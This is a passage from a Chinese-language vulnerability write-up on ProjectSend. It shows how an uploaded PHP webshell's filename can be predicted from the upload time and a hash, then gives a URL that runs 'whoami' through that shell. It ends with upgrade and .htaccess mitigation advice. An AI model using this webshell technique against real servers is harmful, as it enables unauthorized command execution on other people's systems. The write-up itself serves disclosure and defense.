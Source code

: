 改时区的操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7v1TiceBzXS4Pq25wSdINty2bBabx0ZL6cfXMicGZPdWZfEQJIDN3jhcA/640?wx_fmt=png&from=appmsg "")  
  
这里上传的时间为2024-11-29 20:21:51，文件名为cmd.php,sha1(projectsendtest)为197aaa8708c5ce35805cd8001c02430de03ba0d8  
  
最后生成的文件名为：  
1732882911-197aaa8708c5ce35805cd8001c02430de03ba0d8-cmd.php  
  
访问上传的文件名，（upload/files/为默认上传目录）并执行命令：  
```
http://projectsend1128.com:8087/projectsend/upload/files/1732882911-197aaa8708c5ce35805cd8001c02430de03ba0d8-cmd.php?cmd=whoami #执行命令成功
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7EibFM5ic4nl8j5Dhn0nibDPnibJaF2xerH6A2H0WYAtShywM5ALuSZDCFQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x7 漏洞影响**  
  
  
通过以上过程，我们可以看到该漏洞危害极大，且该漏洞利用难度也极低，可以通过未授权开启注册用户，并利用注册用户上传webshell文件，所以有相关组件的用户，应该及时进行修复，避免后续遭利用。  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x8 修复建议**  
  
1.升级版本  
目前官方已有可更新版本，建议受影响用户升级至最新版本：ProjectSend >= r1720  
官方补丁下载地址：  
https://github.com/projectsend/projectsend/commit/193367d937b1a59ed5b68dd4e60bd53317473744  
  
最新安全版本：  
https://github.com/projectsend/projectsend/releases/tag/r1720  
  
  
2.临时措施:  
设置upload/files/.htaccess目录中为不可执行，在.htaccess文件中加上下面的字段即可  
```
php_flag engine off
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7ZhHJjOrEEhSpiazGOA9kdYOeWzPKwjlUDQtEz3yialGPtbsRn07UDlhA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
设置完，则无法可执行PHP代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXlWLwBljX4HezHat8e93ib7DdseaTDWAKE2Bd3vsNDstDv5BcibibMGYFhWjbkJTODf70ibicubm4x2Cw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  